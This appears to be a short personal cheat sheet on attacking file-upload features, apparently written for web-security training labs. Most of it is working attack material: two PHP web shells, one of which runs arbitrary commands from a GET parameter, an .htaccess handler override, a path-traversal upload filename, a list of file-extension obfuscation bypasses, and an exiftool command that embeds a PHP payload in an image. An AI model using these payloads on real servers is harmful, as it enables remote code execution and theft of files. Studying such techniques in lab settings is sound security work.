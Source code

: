 # 🗃 File Upload

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

```php
<?php echo system($_GET['command']); ?>
```

### Check for .htaccess if Apache

* Allows telling how to handle file extensions i.e run .l33t as php
  * `AddType application/x-httpd-php .l33t`
* Web.config similar in IIS

### Path Traversal

* include path traversal in filename: `Content-Disposition: form-data; name="avatar"; filename="../exploit.php"`
  * may need obfuscation i.e URL Encoding
* May give hints to path in response (path stripping ../)

### Obfuscating File Extension

* Null byte injection -> test.php%00.jpg
* Multiple extensions -> test.php.jpg
* Trailing characters -> test.php.
* URL Encoding -> test%2ephp
* Semicolons -> test.asp;.jpg
* Multibyte Unicode Characters -> xC0x2E as x2E (period)

### Polyglot web shell upload

* `exiftool -Comment="<?php echo 'START:' . file_get_contents('/home/carlos/secret') . ':END'; ?>" 19.jpg -o exploit.php`
* Needs an upload function, I couldn't get the copy past working using xclip, base64, and decoder
